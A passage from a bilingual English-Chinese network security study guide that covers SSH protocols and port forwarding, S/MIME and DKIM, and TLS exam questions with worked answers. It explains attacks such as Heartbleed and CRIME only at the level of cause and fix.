It should treat the data as possibly incomplete and issue a security warning. A server bug or a network error can cause such a close, but so can an attacker truncating the stream with a forged FIN or RST.客户端应当把数据视为可能不完整，并发出安全警告。服务器缺陷或网络错误都可能导致这种关闭，但攻击者用伪造的 FIN 或 RST 截断数据流也会造成同样的结果。
Clean closure: the HTTP message may say Connection: close; each TLS side sends a close_notify alert, then the TCP connection is closed. A side may close after sending its own alert without waiting for the peer's.正常关闭时，HTTP 消息中可能声明 Connection: close；TLS 的每一方各自发送一条 close_notify 警报，然后关闭 TCP 连接。一方可以在发出自己的警报后即关闭，无需等待对端的警报。
Secure Shell (SSH) ★★安全外壳（SSH）
Goal. Name the three SSH protocols, trace the packet exchange of the Transport Layer Protocol with the Diffie–Hellman calculation and the key derivation, and set up local and remote port forwarding.目标。 说出 SSH 的三个协议，结合 Diffie–Hellman 计算和密钥推导，追踪传输层协议的数据包交换，并设置本地和远程端口转发。
Step 1: the three protocols第 1 步：三个协议
In words: SSH = a secure replacement for remote login, built from three protocols that run over TCP.用文字表述：SSH = 远程登录的安全替代品，由运行在 TCP 之上的三个协议构成
SSH1 replaced TELNET and other insecure remote-logon schemes. SSH2 fixes the flaws of SSH1.SSH1 取代了 TELNET 和其他不安全的远程登录方案。SSH2 修正了 SSH1 的缺陷。

| Protocol协议 | Function功能 |
|---|---|
| Transport Layer传输层 | server authentication, confidentiality, integrity and forward secrecy (a compromised key does not affect earlier sessions); optional compression服务器认证、机密性、完整性和前向保密（已泄露的密钥不影响此前的会话）；可选压缩 |
| User Authentication用户认证 | authenticates the user to the server向服务器认证用户身份 |
| Connection连接 | multiplexes several logical channels over one encrypted connection在一条加密连接上复用多个逻辑通道 |
Step 2: the Transport Layer Protocol第 2 步：传输层协议
In words: the server signs its half of a Diffie–Hellman exchange with its host key, so the client knows whom it shares a key with.用文字表述：服务器用主机密钥对自己那一半的 Diffie–Hellman 交换进行签名，因此客户端知道自己在和谁共享密钥
The server proves its identity with its host key（主机密钥）. The client must know the public key in advance. There are two trust models. (1) A local database of host-name-to-key pairs: no infrastructure is needed, but it is hard to maintain.服务器用主机密钥证明自己的身份。客户端必须事先知道该公钥。信任模型有两种。(1) 本地数据库，保存主机名与密钥的对应关系：不需要基础设施，但难以维护。
(2) A trusted CA certifies the binding: the client keeps only the CA root key, but each host key needs certification. Accepting a key without checking leaves SSH open to active attacks.(2) 由可信 CA 为这一绑定作证：客户端只需保存 CA 的根密钥，但每个主机密钥都需要经过认证。如果不加检查就接受密钥，SSH 就会遭受主动攻击。

The packet exchange has five steps.数据包交换包括五个步骤。
- The client opens a TCP connection (outside SSH).客户端打开一条 TCP 连接（在 SSH 之外）。
- Both sides send identification strings
SSH-protoversion-softwareversion SP comments CR LF. They are later hashed into the key exchange.双方发送标识字符串SSH-protoversion-softwareversion SP comments CR LF。它们之后会被散列，并纳入密钥交换。 - Algorithm negotiation: each side sends
SSH_MSG_KEXINITwith its algorithm lists in order of preference. The lists cover key exchange, encryption, MAC and compression. For each category the first client algorithm that the server also supports is chosen.算法协商：每一方按偏好顺序发送SSH_MSG_KEXINIT，其中包含它的算法列表。列表涵盖密钥交换、加密、MAC 和压缩。对于每一类，服务器所支持的第一个客户端算法被选中。 - Key exchange (Diffie–Hellman), ended by
SSH_MSG_NEWKEYS.密钥交换（Diffie–Hellman），以SSH_MSG_NEWKEYS结束。 - The client sends
SSH_MSG_SERVICE_REQUESTfor user authentication or the connection protocol. From then on all data is protected.客户端发送SSH_MSG_SERVICE_REQUEST，用于用户认证或连接协议。从此之后，所有数据都受到保护。
The result is a shared key \(K\) and an authenticated server. \(H\) becomes the session identifier, unchanged even if the keys are renegotiated.结果是共享密钥 \(K\) 和经过认证的服务器。\(H\) 成为会话标识符，即使密钥重新协商，它也保持不变。
The SSH packet has these fields: packet length (excluding itself and the MAC), padding length, payload, random padding and MAC. The padding makes the length without the MAC a multiple of the cipher block size (8 for a stream cipher). The MAC covers the unencrypted packet plus an implicit 32-bit sequence number. Then everything except the MAC is encrypted.SSH 数据包包含以下字段：包长度（不含它自身和 MAC）、填充长度、载荷、随机填充和 MAC。填充使得不含 MAC 的长度是密码分组长度的倍数（流密码为 8）。MAC 覆盖未加密的数据包以及隐含的 32 位序号。然后，除 MAC 之外的所有内容都被加密。

Step 3: user authentication第 3 步：用户认证
The client sends SSH_MSG_USERAUTH_REQUEST with user name, service name, method name and method-specific fields. The server answers SSH_MSG_USERAUTH_FAILURE, with the methods that may continue, or SSH_MSG_USERAUTH_SUCCESS. After each successful method that is not the last required one, the failure message carries a partial success flag set to true.客户端发送 SSH_MSG_USERAUTH_REQUEST，其中包含用户名、服务名、方法名以及方法相关的字段。服务器以 SSH_MSG_USERAUTH_FAILURE 回复，列出可以继续的方法；或者以 SSH_MSG_USERAUTH_SUCCESS 回复。每当一个成功的方法不是最后一个必需的方法时，失败消息中的部分成功标志被设为真。
| Method方法 | How it works工作方式 |
|---|---|
publickey |
the client sends its public key in a message signed with its private key; the server checks that the key is acceptable and the signature valid客户端用其私钥签名的消息发送其公钥；服务器检查该密钥是否可接受，以及签名是否有效 |
password |
plaintext password, protected by the transport-layer encryption明文口令，由传输层加密保护 |
hostbased |
the client's host signs with its host key; the server trusts the host's claim that the user has authenticated客户端主机用其主机密钥签名；服务器信任主机关于用户已完成认证的声明 |
Step 4: the Connection Protocol and port forwarding第 4 步：连接协议与端口转发
In words: port forwarding = wrap an insecure TCP connection in the encrypted SSH connection.用文字表述：端口转发 = 把一条不安全的 TCP 连接装进加密的 SSH 连接中
The Connection Protocol multiplexes channels（通道）over one SSH connection: one per terminal session, file transfer or forwarded port. Either side opens a channel with SSH_MSG_CHANNEL_OPEN. Data travels in SSH_MSG_CHANNEL_DATA. SSH_MSG_CHANNEL_CLOSE ends the channel. Channel types: session, x11, forwarded-tcpip (remote forwarding) and direct-tcpip (local forwarding).连接协议在一条 SSH 连接上复用多个通道：每个终端会话、文件传输或转发端口各占一个。任一方都可以用 SSH_MSG_CHANNEL_OPEN 打开通道。数据通过 SSH_MSG_CHANNEL_DATA 传输。SSH_MSG_CHANNEL_CLOSE 结束通道。通道类型有：session、x11、forwarded-tcpip（远程转发）和 direct-tcpip（本地转发）。
Port forwarding（端口转发）works like this. The client application connects to a local port. The local SSH entity carries the bytes through the encrypted connection. The remote SSH entity delivers them to the port of the server application.端口转发的工作方式如下。客户端应用程序连接到本地端口。本地 SSH 实体通过加密连接传送这些字节。远程 SSH 实体把它们交给服务器应用程序的端口。

| Local forwarding本地转发 | Remote forwarding远程转发 | |
|---|---|---|
| Who listens监听方 | SSH client, on a chosen local portSSH 客户端，监听所选的本地端口 | SSH server, on a chosen portSSH 服务器，监听所选端口 |
| Effect效果 | local application traffic goes through the tunnel to a destination reachable from the server本地应用的流量经隧道到达一个可从服务器访问的目的地 | traffic arriving at the server goes through the tunnel to a destination reachable from the client到达服务器的流量经隧道到达一个可从客户端访问的目的地 |
| Example示例 | POP3: ssh -L 9999:localhost:110 user@mailserver; the mail client uses local port 9999POP3：ssh -L 9999:localhost:110 user@mailserver；邮件客户端使用本地端口 9999 |
work PC behind a firewall: ssh -R 2222:localhost:22 user@home; at home ssh -p 2222 user@localhost位于防火墙后的工作电脑：ssh -R 2222:localhost:22 user@home；在家中：ssh -p 2222 user@localhost |
Practice练习
Q1. (Calculation) An SSH packet has a 37-byte payload, AES in CBC mode (16-byte blocks) and HMAC-SHA1 (20-byte MAC). Find the padding length, the packet-length field, the length of the encrypted part and the bytes on the wire.Q1.（计算）一个 SSH 报文的载荷为 37 字节，使用 CBC 模式的 AES（16 字节分组）与 HMAC-SHA1（20 字节 MAC）。求填充长度、报文长度字段、加密部分的长度，以及线上传输的字节数。
Answer
Without padding: packet length field (4) + padding length (1) + payload (37) = 42 bytes. The total with padding must be a multiple of 16, so \(42+p=48\) and \(p=6\) (SSH also requires at least 4 padding bytes, satisfied). The packet-length field excludes itself and the MAC: \(1+37+6=44\). The encrypted part is 48 bytes; the unencrypted 20-byte MAC follows, so 68 bytes go on the wire.不加填充时：报文长度字段（4）+ 填充长度字段（1）+ 载荷（37）= 42 字节。加上填充后的总长必须为 16 的倍数，因此 \(42+p=48\)，并且 \(p=6\)（SSH 还要求至少 4 字节填充，此处已满足）。报文长度字段不包括其自身和 MAC：\(1+37+6=44\)。加密部分为 48 字节，其后跟随未加密的 20 字节 MAC，因此线上共传输 68 字节。
Q2. (Design) Use SSH to protect a POP3 client (port 110) talking to a mail server. Then explain how remote forwarding lets you reach a work computer behind a firewall that blocks incoming connections.Q2.（设计）使用 SSH 保护一个与邮件服务器通信的 POP3 客户端（端口 110）。然后说明远程转发如何使你能够访问位于会阻止入站连接的防火墙之后的工作电脑。
Answer
Local forwarding: run ssh -L 9999:localhost:110 user@mailserver (the destination is given relative to the SSH server). The SSH client listens on local port 9999 and the mail client is set to use localhost:9999. Bytes sent there travel inside the encrypted SSH connection; the SSH server decrypts them and delivers them to port 110, and the reply takes the reverse path. Only the leg between the two hosts is encrypted.本地转发：运行 ssh -L 9999:localhost:110 user@mailserver（目的地址相对于 SSH 服务器给出）。SSH 客户端监听本地端口 9999，邮件客户端被设置为使用 localhost:9999。发往该端口的字节在加密的 SSH 连接内传输；SSH 服务器解密后将其交付到 110 端口，回复则沿相反路径返回。只有两台主机之间的一段链路是加密的。
Remote forwarding: from the work computer, which may connect outwards, run ssh -R 2222:localhost:22 user@home. The home SSH server listens on port 2222 and sends whatever arrives there through the tunnel to port 22 of the work computer. At home, ssh -p 2222 user@localhost then logs in to the work computer.远程转发：在可对外连接的工作电脑上运行 ssh -R 2222:localhost:22 user@home。家中的 SSH 服务器在 2222 端口监听，并将到达该端口的所有数据经隧道转发到工作电脑的 22 端口。在家中，ssh -p 2222 user@localhost 随后即可登录工作电脑。
Secure e-mail: S/MIME and DKIM ★安全电子邮件：S/MIME 与 DKIM
S/MIME (Secure/Multipurpose Internet Mail Extension, a security enhancement to the MIME e-mail format) signs and encrypts the e-mail of one user. It is built into most e-mail programs. It gives four functions.S/MIME（安全/多用途因特网邮件扩展，是对 MIME 电子邮件格式的安全增强）对一个用户的电子邮件进行签名和加密。大多数邮件程序都内置了它。它提供四项功能。
| Function功能 | Typical algorithm典型算法 | What it does作用 |
|---|---|---|
| Enveloped data数字信封数据 | AES for the content, RSA for the one-time key内容用 AES 加密，一次性密钥用 RSA 加密 | Encrypts the content. The key is encrypted for each recipient加密内容。密钥要为每个接收者分别加密 |
| Signed data签名数据 | SHA-256 hash signed with RSA or DSASHA-256 散列值用 RSA 或 DSA 签名 | Signs the content. Content and signature are then encoded in base64. Only a recipient with S/MIME capability can view the message为内容签名。内容和签名随后做 base64 编码。只有具备 S/MIME 能力的接收者才能查看该消息 |
| Clear-signed data明文签名数据 | the same signature签名相同 | Only the signature is base64-encoded. Recipients without S/MIME can read the text but cannot verify it只对签名做 base64 编码。没有 S/MIME 的接收者可以读文本，但无法验证 |
| Signed and enveloped data签名并加密的数据 | both of the above同时具备以上两者 | The two can be nested in either order两者可以任意顺序嵌套 |
The signature is a binary string, and e-mail software may alter control characters. So the signature, or the signature and message, are mapped to printable ASCII by radix-64 (base64). It maps each group of three octets to four ASCII characters. Example: 300 bytes become 400 characters. Public keys are distributed in X.509v3 certificates.签名是二进制串，而邮件软件可能会改动控制字符。因此，签名，或签名与消息，要用 radix-64（base64）映射为可打印的 ASCII。它把每组三个字节映射为四个 ASCII 字符。例如，300 字节变成 400 个字符。公钥通过 X.509v3 证书分发。
DKIM (DomainKeys Identified Mail) works per domain, not per user. The sending mail domain signs the content and selected headers with its private key. The default is RSA with SHA-256. The receiver fetches the public key from the DNS of the signing domain and verifies the signature. This protects against forged senders: mail that claims a domain but was not signed by it fails the test. It is transparent to users, because mail programs are not changed.DKIM（DomainKeys Identified Mail）以域名为单位工作，而不是以用户为单位。发送方的邮件域用其私钥对内容和选定的首部签名。默认是 RSA 加 SHA-256。接收方从签名域的 DNS 中获取公钥，并验证签名。这可以防止伪造发件人：声称来自某个域但未经该域签名的邮件会验证失败。它对用户是透明的，因为邮件程序无需改动。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| SSL | The commercial predecessor of TLS. DeprecatedTLS 的商业前身。已弃用 |
| Heartbeat protocol心跳协议 | Echoes a payload to show that the peer is alive. Runs over the Record Protocol回送载荷，以表明对方仍然在线。运行在记录协议之上 |
| DTLS | Datagram TLS, TLS over unreliable datagrams. The heartbeat payload lets a requester match replies数据报 TLS，即在不可靠数据报上运行的 TLS。心跳载荷使请求方能够匹配回复 |
| 0-RTT | A TLS 1.3 client resuming with a pre-shared key sends early data in its first flight. An attacker can replay itTLS 1.3 客户端用预共享密钥恢复会话时，会在第一个消息中发送早期数据。攻击者可以重放它 |
| HKDF | The HMAC-based key derivation function that TLS 1.3 uses to derive keys from the (EC)DHE secretTLS 1.3 用来从 (EC)DHE 秘密推导密钥的基于 HMAC 的密钥推导函数 |
| BEAST | 2011 chosen-plaintext attack that exploits the predictable chained CBC IV2011 年的选择明文攻击，利用可预测的链式 CBC IV |
| CRIME | 2012 attack that uses the length of compressed records to leak secret cookies2012 年的攻击，利用压缩记录的长度泄露秘密 Cookie |
| Anonymous DH匿名 DH | No authentication, so a man-in-the-middle can run DH with both sides没有认证，因此中间人可以分别与双方进行 DH 交换 |
SSH_MSG_KEXINIT |
The message that carries each side's algorithm lists for negotiation承载每一方算法列表以进行协商的消息 |
| Host-key trust models主机密钥信任模型 | A local host-name-to-key database, or a CA that certifies the host key本地的主机名到密钥的数据库，或为主机密钥作证的 CA |
| SSH versionsSSH 版本 | SSH1 replaced TELNET. SSH2 fixes the flaws of SSH1SSH1 取代了 TELNET。SSH2 修正了 SSH1 的缺陷 |
| Message handling agents邮件处理代理 | DKIM signs at the mail submission agent (MSA) and verifies at the mail delivery agent (MDA)DKIM 在邮件提交代理（MSA）处签名，在邮件投递代理（MDA）处验证 |
Exam-style questions考试题型练习
Q1. (Handshake and key derivation, 14 marks) A client and server use ephemeral Diffie–Hellman with client authentication. (a) List the messages of the full handshake in order, grouped by the four phases, and state the content of server_key_exchange and certificate_verify. (6 marks) (b) Give the formulas for the master secret and the key block and the order in which the key block is cut. (4 marks) (c) The cipher suite uses AES-256-CBC (32-byte keys, 16-byte IVs) and HMAC-SHA-1 (20-byte keys). How long is the key block? How many iterations of \(P_{\text{SHA256}}\) and how many HMAC calls produce it? (4 marks)Q1.（握手与密钥派生，14 分）客户端与服务器使用临时 Diffie–Hellman 并进行客户端认证。（a）按顺序列出完整握手的各条消息，并按四个阶段分组，同时说明 server_key_exchange 与 certificate_verify 的内容。（6 分）（b）给出主密钥和密钥块的计算公式，以及密钥块的切分顺序。（4 分）（c）密码套件使用 AES-256-CBC（32 字节密钥，16 字节 IV）和 HMAC-SHA-1（20 字节密钥）。密钥块有多长？生成它需要多少次 \(P_{\text{SHA256}}\) 迭代，以及多少次 HMAC 调用？（4 分）
Answer
(a) Phase 1: C client_hello; S server_hello. Phase 2: S certificate, server_key_exchange, certificate_request, server_hello_done. Phase 3: C certificate, client_key_exchange, certificate_verify. Phase 4: C change_cipher_spec, finished; then S change_cipher_spec, finished.（a）阶段 1：C client_hello；S server_hello。阶段 2：S certificate、server_key_exchange、certificate_request、server_hello_done。阶段 3：C certificate、client_key_exchange、certificate_verify。阶段 4：C change_cipher_spec、finished；随后 S change_cipher_spec、finished。
server_key_exchange carries \(p\), \(g\), the server's DH public value and a signature over \(\mathrm{hash}(\text{ClientHello.random}\,\Vert\,\text{ServerHello.random}\,\Vert\,\text{parameters})\) made with the server's RSA or DSS private key. certificate_verify is the client's signature over the MD5 and SHA-1 hashes of all handshake messages since client_hello; it proves that the client owns the private key of its certificate.server_key_exchange 携带 \(p\)、\(g\)、服务器的 DH 公开值，以及用服务器的 RSA 或 DSS 私钥对 \(\mathrm{hash}(\text{ClientHello.random}\,\Vert\,\text{ServerHello.random}\,\Vert\,\text{parameters})\) 所做的签名。certificate_verify 是客户端对自 client_hello 以来所有握手消息的 MD5 和 SHA-1 散列所做的签名；它证明客户端拥有其证书对应的私钥。
(b) The pre-master secret is the DH shared value. \(\text{master\_secret}=\mathrm{PRF}(\text{pre\_master\_secret},\text{"master secret"},\text{client\_random}\,\Vert\,\text{server\_random})\) (48 bytes). \(\text{key\_block}=\mathrm{PRF}(\text{master\_secret},\text{"key expansion"},\text{server\_random}\,\Vert\,\text{client\_random})\), cut into client write MAC secret, server write MAC secret, client write key, server write key, client write IV, server write IV.（b）预主密钥即 DH 共享值。\(\text{master\_secret}=\mathrm{PRF}(\text{pre\_master\_secret},\text{"master secret"},\text{client\_random}\,\Vert\,\text{server\_random})\)（48 字节）。\(\text{key\_block}=\mathrm{PRF}(\text{master\_secret},\text{"key expansion"},\text{server\_random}\,\Vert\,\text{client\_random})\)，切分为客户端写 MAC 密钥、服务器写 MAC 密钥、客户端写密钥、服务器写密钥、客户端写 IV、服务器写 IV。
(c) Key block \(=2\times20+2\times32+2\times16=136\) bytes. Iterations \(=\lceil136/32\rceil=5\), giving 160 bytes (24 discarded). Each iteration uses 2 HMAC calls, so 10 HMAC calls (20 hash calls).（c）密钥块为 \(=2\times20+2\times32+2\times16=136\) 字节。迭代次数为 \(=\lceil136/32\rceil=5\)，共得到 160 字节（丢弃 24 字节）。每次迭代使用 2 次 HMAC 调用，因此共 10 次 HMAC 调用（20 次散列调用）。
Q2. (Record Protocol, 10 marks) (a) List the steps applied to an outgoing message and the fields covered by the MAC. (3 marks) (b) Why can a receiver not accept records out of order, and what happens if one arrives? (2 marks) (c) A 1,000-byte message is sent with HMAC-SHA-1 and AES-128-CBC without compression. Compute the minimum padding, the encrypted length and the record size on the wire (ignore explicit IVs). (3 marks) (d) Why is there a separate Change Cipher Spec Protocol? (2 marks)Q2.（记录协议，10 分）（a）列出应用于待发送消息的各个步骤，以及 MAC 所覆盖的字段。（3 分）（b）为什么接收方不能接受乱序到达的记录？若有记录乱序到达，会发生什么？（2 分）（c）一条 1,000 字节的消息使用 HMAC-SHA-1 和 AES-128-CBC 发送，且不压缩。计算最小填充、加密后长度以及线上的记录大小（忽略显式 IV）。（3 分）（d）为什么要单独设立密码规格变更协议？（2 分）
Answer
(a) Fragment (at most \(2^{14}\) bytes), compress (optional), add MAC, encrypt, prepend the header (type, version, length). The MAC covers \(\text{seq\_num}\,\Vert\,\text{type}\,\Vert\,\text{version}\,\Vert\,\text{length}\,\Vert\,\text{fragment}\).（a）分片（每片至多 \(2^{14}\) 字节），压缩（可选），添加 MAC，加密，再前置头部（类型、版本、长度）。MAC 覆盖 \(\text{seq\_num}\,\Vert\,\text{type}\,\Vert\,\text{version}\,\Vert\,\text{length}\,\Vert\,\text{fragment}\)。
(b) The sequence number is implicit and part of the MAC, so a record that arrives at the wrong position fails the MAC check; the receiver sends the fatal alert bad_record_mac and closes the connection.（b）序号是隐式的，并且是 MAC 的组成部分，因此位置错误到达的记录会在 MAC 校验时失败；接收方发送致命警报 bad_record_mac 并关闭连接。
(c) \(L=1{,}000+20+1=1{,}021\); \(p\equiv-1{,}021\equiv3\pmod{16}\), so 3 padding bytes. Encrypted length \(1{,}024=64\) blocks; with the 5-byte header, 1,029 bytes on the wire.（c）\(L=1{,}000+20+1=1{,}021\)；\(p\equiv-1{,}021\equiv3\pmod{16}\)，因此有 3 字节填充。加密后长度为 \(1{,}024=64\) 个分组；加上 5 字节头部，线上共 1,029 字节。
(d) The message commands the Record Protocol to activate the pending state at an exact point in the record stream and can be sent without a full handshake (resumed sessions); it negotiates nothing, so it does not belong to the Handshake Protocol.（d）该消息指示记录协议在记录流的确切位置激活待定状态，并且可以在不进行完整握手的情况下发送（用于恢复的会话）；它不协商任何内容，因此不属于握手协议。
Q3. (Threat analysis, 12 marks) For each threat, name the TLS feature that counters it, or say that TLS does not: (a) brute-force key search, (b) known-plaintext dictionary attack, (c) replay of earlier handshake messages, (d) man-in-the-middle during key exchange, (e) password sniffing, (f) IP spoofing, (g) IP hijacking, (h) SYN flooding. (1.5 marks each)Q3.（威胁分析，12 分）对于每种威胁，指出能够对抗它的 TLS 特性，或说明 TLS 无法对抗：（a）暴力密钥搜索，（b）已知明文字典攻击，（c）重放先前的握手消息，（d）密钥交换过程中的中间人攻击，（e）口令嗅探，（f）IP 欺骗，（g）IP 劫持，（h）SYN 洪泛。（每题 1.5 分）
Answer
| Threat威胁 | Countermeasure对策 |
|---|---|
| (a) Brute force（a）穷举攻击 | long keys (128-bit and larger) and a 48-byte master secret make exhaustive search infeasible长密钥（128 位及以上）以及 48 字节的主密钥使穷举搜索不可行 |
| (b) Dictionary（b）字典攻击 | fresh random keys per session (random pre-master secret and nonces), so a dictionary built for one key is useless; large key space每个会话使用新的随机密钥（随机的预主密钥和随机数），因此为某个密钥构造的字典对其他密钥无用；密钥空间很大 |
| (c) Replay（c）重放 | hello nonces in the key derivation and signatures; sequence numbers in the record MAC密钥导出与签名中的 Hello 随机数；记录 MAC 中的序号 |
| (d) Man-in-the-middle（d）中间人攻击 | certificates and signed key-exchange parameters authenticate the server (optionally the client); finished covers the whole handshake; anonymous DH is vulnerable证书与签名的密钥交换参数对服务器（可选地包括客户端）进行认证；finished 覆盖整个握手过程；匿名 DH 存在漏洞 |
| (e) Password sniffing（e）口令嗅探 | the Record Protocol encrypts all application data, including passwords记录协议加密全部应用数据，包括口令 |
| (f) IP spoofing（f）IP 欺骗 | a spoofer lacks the session keys, so forged records fail the MAC check欺骗者没有会话密钥，因此伪造的记录会在 MAC 校验中失败 |
| (g) IP hijacking（g）IP 劫持 | injected records fail the MAC; the hijack is detected and the connection ends (a DoS remains possible)注入的记录会在 MAC 校验中失败；劫持被检测到，连接随之结束（拒绝服务攻击仍有可能发生） |
| (h) SYN flooding（h）SYN 洪泛 | not countered: half-open connections arise in TCP before TLS starts (SYN cookies, Chapter 23)无法对抗：半开连接在 TLS 启动之前即已在 TCP 层产生（SYN cookie，见第 23 章） |
Q4. (TLS 1.3, HTTPS and attacks, 12 marks) (a) State four changes in TLS 1.3 and the weakness each addresses. (4 marks) (b) Explain Heartbleed: cause, effect, why it is not a flaw of the protocol, and the fix. (4 marks) (c) An HTTPS client sees its TCP connection close with no close_notify and no Connection: close. What should it do, and why? (2 marks) (d) What does CRIME exploit, and how is it prevented? (2 marks)Q4.（TLS 1.3、HTTPS 与攻击，12 分）（a）列出 TLS 1.3 的四项改动，以及每项改动所针对的弱点。（4 分）（b）解释 Heartbleed：成因、影响、为何它不是协议本身的缺陷，以及修复方法。（4 分）（c）一个 HTTPS 客户端发现其 TCP 连接在既没有 close_notify 也没有 Connection: close 的情况下关闭。它应当如何处理？为什么？（2 分）（d）CRIME 利用了什么？如何防范？（2 分）
Answer
(a) (i) Only (EC)DHE key exchange: static RSA/DH let a stolen key expose recorded sessions, while ephemeral keys give forward secrecy. (ii) Compression and renegotiation removed: CRIME and handshake-flood attacks. (iii) Only authenticated encryption (AEAD), no RC4: removes MAC-then-encrypt padding attacks and biased keystreams. (iv) A 1-RTT handshake with the key share in client_hello: faster and a smaller attack surface.（a）（i）仅使用 (EC)DHE 密钥交换：静态 RSA/DH 会使被窃取的密钥暴露已记录的会话，而临时密钥可提供前向保密。（ii）删除压缩与重协商：针对 CRIME 与握手洪泛攻击。（iii）仅使用认证加密（AEAD），不再使用 RC4：消除了 MAC 后加密的填充攻击和有偏的密钥流。（iv）1-RTT 握手，密钥份额在 client_hello 中发送：速度更快，攻击面更小。
(b) OpenSSL's Heartbeat code trusted the claimed payload length. A request claiming 64 KB but carrying 16 bytes made the server return its payload plus almost 64 KB of adjacent memory (private keys, passwords). The specification requires an exact copy of the received payload, so the bug is a missing bounds check in one implementation. Fix: compare claimed and real length and drop the request; then revoke and reissue certificates and change passwords.（b）OpenSSL 的心跳代码信任了声称的载荷长度。一个声称 64 KB 却只携带 16 字节的请求，会使服务器返回其载荷，外加几乎 64 KB 的相邻内存（私钥、口令）。规范要求精确复制所收到的载荷，因此该缺陷是某一实现中缺少边界检查。修复方法是比较声称长度与实际长度，并丢弃该请求；随后吊销并重新签发证书，同时更改口令。
(c) Issue a security warning: the close may be a server bug or network error, but an attacker may have truncated the data with a forged FIN or RST, which cannot be told apart from a genuine close without an authenticated close_notify.（c）应发出安全警告：此次关闭可能是服务器缺陷或网络错误造成的，但攻击者也可能用伪造的 FIN 或 RST 截断了数据；若没有经过认证的 close_notify，这与正常关闭无法区分。
(d) With TLS compression, the compressed length of a request containing attacker-chosen text next to a secret cookie drops when a guess is right, so the cookie leaks and the session can be hijacked. Prevention: disable TLS compression (removed in TLS 1.3).（d）启用 TLS 压缩时，若攻击者构造的文本与秘密 Cookie 相邻，那么一旦猜测正确，压缩后请求的长度就会缩短，于是 Cookie 泄露，会话可能被劫持。防范方法：禁用 TLS 压缩（TLS 1.3 已删除）。
Q5. (SSH, 12 marks) (a) Name the three SSH protocols and say where the server and the user are authenticated. (3 marks) (b) With \(p=23\), \(g=2\), client secret \(x=5\) and server secret \(y=8\), compute \(e\), \(f\) and \(K\). (3 marks) (c) How are the six session keys derived from \(K\)? (2 marks) (d) A user wants to read mail from a server that is reachable only through an SSH server on a gateway host. Which forwarding type is used, and how does the data flow? (4 marks)Q5.（SSH，12 分）（a）列出三种 SSH 协议，并说明服务器与用户分别在何处被认证。（3 分）（b）给定 \(p=23\)、\(g=2\)，客户端秘密值 \(x=5\) 和服务器秘密值 \(y=8\)，计算 \(e\)、\(f\) 和 \(K\)。（3 分）（c）六个会话密钥如何从 \(K\) 导出？（2 分）（d）用户希望读取一台只能通过网关主机上的 SSH 服务器访问的邮件服务器上的邮件。应使用哪种转发类型？数据如何流动？（4 分）
Answer
(a) Transport Layer Protocol (server authentication by host-key signature during key exchange, plus confidentiality and integrity), User Authentication Protocol (publickey, password or hostbased authentication of the user), Connection Protocol (channels multiplexed over the encrypted connection).（a）传输层协议（密钥交换期间通过主机密钥签名进行服务器认证，并提供机密性和完整性）、用户认证协议（对用户进行 publickey、password 或 hostbased 认证）、连接协议（在加密连接上复用通道）。
(b) \(e=2^5\bmod23=9\), \(f=2^8\bmod23=256-253=3\). \(K=f^x=3^5\bmod23=243-230=13\); check: \(e^y=9^8\bmod23=13\).（b）\(e=2^5\bmod23=9\)，\(f=2^8\bmod23=256-253=3\)。\(K=f^x=3^5\bmod23=243-230=13\)；校验：\(e^y=9^8\bmod23=13\)。
(c) Each key is \(\mathrm{HASH}(K\,\Vert\,H\,\Vert\,X\,\Vert\,\text{session\_id})\) with \(X\) = A, B for the IVs, C, D for the encryption keys and E, F for the integrity keys (client to server, then server to client). The session identifier is the first \(H\).（c）每个密钥均为 \(\mathrm{HASH}(K\,\Vert\,H\,\Vert\,X\,\Vert\,\text{session\_id})\)，其中 \(X\) 取 A、B 时对应 IV，取 C、D 时对应加密密钥，取 E、F 时对应完整性密钥（先客户端到服务器，后服务器到客户端）。会话标识符为第一个 \(H\)。
(d) Local forwarding: the client runs ssh -L 9999:mailserver:110 user@gateway and points the mail client at localhost:9999. Bytes go through a direct-tcpip channel inside the encrypted SSH connection to the gateway, which opens a plain TCP connection to the mail server's port 110 and relays replies back. Only the client-to-gateway leg is encrypted.（d）本地转发：客户端运行 ssh -L 9999:mailserver:110 user@gateway，并将邮件客户端指向 localhost:9999。数据经由加密 SSH 连接内的 direct-tcpip 通道传输到网关，网关再与邮件服务器的 110 端口建立一条明文 TCP 连接，并将回复中继回来。只有客户端到网关之间的一段链路被加密。
Textbook exercises课后习题
Textbook exercises with answers: 17 questions教材习题及答案，共 17 题，点击展开
E1. (Review Question 17.1, Stallings) There are three approaches to securing Web traffic: security at the network level (IPsec, below TCP), at the transport level (SSL/TLS, just above TCP) and at the application level (security built into each application, for example S/MIME for e-mail or Kerberos). What are the advantages of each?E1.（复习题 17.1，Stallings）网络上保护 Web 流量有三种方法：网络层（IPsec，位于 TCP 之下）、传输层（SSL/TLS，位于 TCP 之上）和应用层（内置于各应用的安全机制，例如电子邮件的 S/MIME 或 Kerberos）。这三种方法各有什么优点？
Answer
- Network level (IPsec). It is transparent to end users and applications and is a general-purpose solution for all traffic. It also has a filtering capability, so only selected traffic incurs the cost of IPsec processing.网络层（IPsec）。 对终端用户和应用程序透明，是适用于所有流量的通用方案。它还具备过滤能力，因此只有选定的流量才需要付出 IPsec 处理的开销。
- Transport level (SSL/TLS). It is also general purpose and, when built into the protocol suite, transparent to applications. It can alternatively be embedded in specific packages: virtually all browsers and most Web servers already include TLS.传输层（SSL/TLS）。 同样是通用的；如果它内置于协议栈中，对应用也是透明的。它也可以嵌入特定的软件包：几乎所有浏览器和大多数 Web 服务器都已包含 TLS。
- Application level. The service is built into the particular application and can therefore be tailored to the specific needs of that application (for example signing individual e-mail messages).应用层。 安全服务内置于特定应用中，因此可以针对该应用的具体需求进行定制（例如对单封电子邮件签名）。
The lower the layer, the more transparent and general the protection; the higher the layer, the more it can be adapted to the application.层越低，保护越透明、越通用；层越高，越能适应具体应用。
思路：层越低越通用透明，层越高越能按应用定制。
E2. (Review Question 17.2, Stallings; 22.5, Stallings & Brown) What protocols comprise TLS (SSL)?E2.（复习题 17.2，Stallings；22.5，Stallings & Brown）TLS（SSL）由哪些协议组成？
Answer
TLS is two layers of protocols running on top of TCP.TLS 由运行在 TCP 之上的两层协议组成。
- Record Protocol (lower layer): provides confidentiality and message integrity to the protocols above it.记录协议（下层）：为其上的协议提供机密性和消息完整性。
- Handshake Protocol: authenticates the parties and negotiates the cipher suite and the keys.握手协议：对双方进行认证，并协商密码套件和密钥。
- Change Cipher Spec Protocol: one message that tells the Record Protocol to start using the newly negotiated parameters.密码规格变更协议：一条消息，通知记录协议开始使用新协商的参数。
